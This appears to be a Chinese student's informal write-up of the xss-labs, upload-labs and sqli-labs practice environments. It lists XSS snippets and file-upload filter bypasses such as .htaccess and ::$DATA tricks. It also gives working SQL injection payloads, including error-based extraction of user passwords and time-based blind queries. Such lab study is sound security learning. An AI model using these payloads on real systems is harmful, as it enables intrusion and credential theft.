 # xss-labs writeup

注入

```js
标签<script></script>
onclick="javascript:alert(1);"  onkeydown=""
<a href="javascript:alert(1)">abc<a>

type="hidden"
```



过滤-绕过

```
大小写绕过
重写绕过

```

# upload-labs writeup

各关卡知识点：

```php
1.前端js对php后缀的限制
2.对content-type的限制
3.后缀绕过phtml
4..htaccess的借助
5..htaccess的借助，大小写
6.后缀中加空格绕过！！！！！！！！！纯大写的后缀绕过
7.后缀中加.绕过
	labs7.php.提示上传出错，labs7.jpg.成功上传并且改文件名字了
	但提示没说限制.htaccess，但是不能上传
8.后缀中加::$DATA绕过
9. .空格.的绕过！！！！！！！！！！::$DATA上传成功了！！
10.后缀双写绕过
	理论来说应该是. .但是无法上传啊？？
11.双写绕过!!!!!!!!!
```

# sql-labs write up



`安全就是这么狗`

```php
卧槽！！！
原来不是我下的sqli-labs文件有问题
原来不是我的hackbar有问题
原来不是我的php函数出问题了
原来我的数据库没问题
当我吧playload的内容直接写到php文档上不出问题
当我直接在浏览器注入时就出问题
仔细对比一下写入的txt文档内容的时候我才发现'变成了\',这尼玛原来我的php帮我防sql注入了！！！！操
php5.2.17配置了php.ini的函数为Off依然解决不了问题，
换了个版本，php5.6.9卧槽！！瞬间解决问题，
（我当初下php版本时为嘛下哪个？！？！！

一个php版本的问题，拖了我2-3周没好好学sql注入了
```

`易错点-我的误区`

```sql
-1' union select 1,2,3--+
1' order by 3--+
分清正负号很关键
```

开始吧，一天干完sqli-labs20关



## labs1--单引号字符型

![image-20220225103159195](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225103159195.png)

## labs2--整形

![image-20220225103844985](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225103844985.png)

## labs3--('')字符型

![image-20220225104036251](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225104036251.png)

## labs4--加双引号的类型

![image-20220225104919299](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225104919299.png)





## labs5--双注入单引号字符型

![image-20220225114303822](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225114303822.png)

可以用报错注入1' and updatexml(1,concat(0x5e,(select group_concat(password) from security.users),0x5e),1) --+

substr((),1)用于字符显示不全的题目；



## labs6--双注入双引号字符型

![image-20220225155544470](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225155544470.png)

## labs7-----额闯不过去，，，文件就是写不到路径里，搞了一下午了



## labs8-盲注就这样得依靠外力

爆库成功

![image-20220226202006530](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226202006530.png)

接着借助外了

## labs9---时间盲注（好麻烦--去学sqlmap了

?id=1' and if(left(database(),8)='security' , sleep(3), 1) --+

爆库成功的标志，时间延迟了

![image-20220226195242584](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226195242584.png)



## labs10--同9一样麻烦

?id=1" and if(left(database(),8)='security' , sleep(3), 1) --+

爆库成功的标志，

sqlmap比较好

![image-20220226195903391](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226195903391.png)





## labs11---登录能成功，但回显不了想要的

！！！！！！！！！牛逼成功了，（为什么hackbar里post不成功，要抓包才成功

![image-20220226133650937](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226133650937.png)

## labs12--和11差不多

![image-20220226134217277](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226134217277.png)



## labs13--和11差不多

admisdn') and updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1) -- -

![image-20220226140959525](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226140959525.png)



## labs14--和11差不多

admin123" and extractvalue(1,concat(0x7e,(select group_concat(password) from security.users))) and "

![image-20220226141704817](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226141704817.png)



## labs15--和9差不多

uname=admin' and if(left(database(),8)='security',sleep(5),1)--+&passwd=admin&submit=Submit

时间延迟爆库成功了,就和9差不多了

![image-20220226201027167](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226201027167.png)



## labs16--和9差不多

## labs17--报错类型

算是成功了

![image-20220226201717914](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220226201717914.png)







`18，19，20主要是请求头的一些注入相关的`

## labs18--user Agent

![image-20220225174408061](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225174408061.png)





## labs19--referer

报错注入一下子就过去了，另一个怎么就是成功不了

![image-20220225204011709](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225204011709.png)



## labs20--cookie

![image-20220225171829693](C:\Users\27969\AppData\Roaming\Typora\typora-user-images\image-20220225171829693.png)

